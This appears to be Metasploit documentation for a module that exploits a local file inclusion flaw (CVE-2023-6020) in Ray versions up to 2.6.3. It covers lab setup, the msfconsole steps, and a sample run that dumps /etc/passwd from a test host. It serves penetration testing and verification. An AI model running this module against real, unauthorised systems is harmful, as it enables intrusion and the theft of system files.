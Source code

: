 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to local file inclusion (CVE-2023-6020)

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/gather/ray_lfi_cve_2023_6020`
4. Do: `set rhost <rhost>`
5. Do: `run`
6. You should get a file content

## Options

### FILEPATH (Required)

This is the file to read. Default is `/etc/passwd`.

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15
```
msf > use auxiliary/gather/ray_lfi_cve_2023_6020
msf auxiliary(gather/ray_lfi_cve_2023_6020) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf auxiliary(gather/ray_lfi_cve_2023_6020) > check
[+] 192.168.56.6:8265 - The target is vulnerable.
msf auxiliary(gather/ray_lfi_cve_2023_6020) > run
[*] Running module against 192.168.56.6

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ray:x:1000:100::/home/ray:/bin/bash

[*] Auxiliary module execution completed
```
